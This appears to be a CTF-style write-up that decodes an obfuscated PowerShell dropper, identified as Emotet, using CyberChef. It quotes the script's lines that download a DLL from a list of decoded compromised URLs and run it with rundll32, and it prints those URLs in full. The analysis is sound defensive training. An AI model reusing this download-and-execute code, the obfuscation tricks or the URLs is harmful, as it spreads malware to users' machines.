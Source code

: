 #### Maliciou PowerShell Analysis

> file : ps_script.ps

Using CyberChef, 

#### Questions

First, we see `POwersheLL -w hidden -ENCOD`. PowerShell accepts case-insensitive input, so we can ignore .

`POwersheLL -w hidden`means that a hidden PowerShell window (invisible to the user) is opened, and `-ENCOD,`shorthand for `encoded` shows that the script was encoded with Base64.

The first thing to do is recognise that the PowerShell payload is `base64` encoded. We can overcome this hurdle easily with **From Base64** in CyberChef. I like to use **Regular Expression** to extract the encoded string.

##### 1) What security protocol is being used for the communication with a malicious domain?

```
"sEcuRITYproT`o`c`ol" = ('T'+('ls'+'12'));
```

**Answer:**  TLS 1.2

##### 2) What directory does the obfuscated PowerShell create? (Starting from \HOME\) 

```
"c`REAt`edI`REC`TORy"($HOME + (('{'+'0}Db_bh'+'30'+'{0}'+'Yf'+'5be5g{0}')-F [chAR]92))

ps > echo (('{'+'0}Db_bh'+'30'+'{0}'+'Yf'+'5be5g{0}') -F [chAR]92))
   > \Db_bh30\Yf5be5g
```

**Answer:** \HOME\Db_bh30\Yf5be5g\

##### 3) What file is being downloaded (full name)?

```
foreach ($Bm5pw6z in $B9fhbyv){try{(&('New'+'-Objec'+'t') SysTem.nEt.WEBcLIeNT)."do`WNl`OaD`FIlE"($Bm5pw6z, $Imd1yck)
: Downloaded file is $Imd1yck

$Imd1yck=$HOME+((('UO'+'H'+'Db_')+'b'+('h3'+'0UO')+('HY'+'f')+('5be5'+'g'+'UOH'))."ReP`lACe"(('U'+'OH'),[StrInG][chAr]92))+$Swrp6tc+(('.'+'dl')+'l')

PS > echo ((('UO'+'H'+'Db_')+'b'+('h3'+'0UO')+('HY'+'f')+('5be5'+'g'+'UOH'))."ReP`lACe"(('U'+'OH'),[StrInG][chAr]92))+$Swrp6tc+(('.'+'dl')+'l')
: \Db_bh30\Yf5be5g\ + $Swrp6tc + .dll

$Swrp6tc = (('A6'+'9')+'S')
: A69S
```

**Answer:** A69S.dll

##### 4) What is used to execute the downloaded file?

```
If ((&('Ge'+'t-It'+'em') $Imd1yck)."len`G`TH" -ge 35698) {&('r'+'undl'+'l32') $Imd1yck,(('Co'+'nt')+'r'+('ol'+'_RunD'+'L')+'L')."T`OSt`RiNG"()\n$R65I=('Z'+('09'+'B'))
```

**Answer:** rundll32

##### 5) What is the domain name of the URI ending in ‘/6F2gd/’ 

```
$B9fhbyv=(']'+('a'+'nw[3s://adm'+'int'+'k.c'+'o'+'m/'+'w')+('p-adm'+'in/'+'L/')+'@'+(']a'+'n'+'w[3s')+':'+'/'+'/m'+('ike'+'ge')+('e'+'r'+'inck.')+('c'+'om')+('/c/'+'Y'+'Ys')+'a'+('/@]'+'anw'+'['+'3://free'+'lanc'+'e'+'rw')+('ebdesi'+'gnerh'+'yd')+('er'+'aba')+('d.'+'com/')+('cgi'+'-bin'+'/S')+('/'+'@'+']anw')+('[3'+'://'+'etdog.co'+'m'+'/w')+('p-'+'co')+'nt'+('e'+'nt')+('/n'+'u/@')+(']a'+'nw[3')+'s'+('://'+'www'+'.hintu'+'p.c')+('o'+'m.')+('b'+'r/')+'w'+('p'+'-co')+('n'+'ten')+('t'+'/dE/'+'@]a'+'nw[3://'+'www.')+'s'+('tm'+'arouns'+'.')+('ns'+'w')+('.'+'edu.au/p'+'a'+'y'+'pal/b8')+('G'+'/@]')+('a'+'nw[')+('3:'+'/')+('/'+'wm.mcdeve'+'lop.net'+'/'+'c'+'on'+'t'+'e')+('nt'+'/')+'6'+('F2'+'gd/'))."RE`p`lACe"(((']a'+'n')+('w'+'[3')),([array]('sd','sw'),(('h'+'tt')+'p'),'3d')[1])."s`PLIT"($C83R + $Cvmmq4o + $F10Q)

PS > echo $$B9fhbyv
https://admintk.com/wp-admin/L/@https://mikegeerinck.com/c/YYsa/@http://freelancerwebdesignerhyderabad.com/cgi-bin/S/@http://etdog.com/wp-content/nu/@https://www.hintup.com.br/wp-content/dE/@http://www.stmarouns.nsw.edu.au/paypal/b8G/@http://wm.mcdevelop.net/content/6F2gd/
```

**Answer:** wm.mcdevelop.net

##### 6) Based on the analysis of the obfuscated code, what is the name of the malware? 

```
search in google > wm.mcdevelop.net
```

**Answer:** emotet
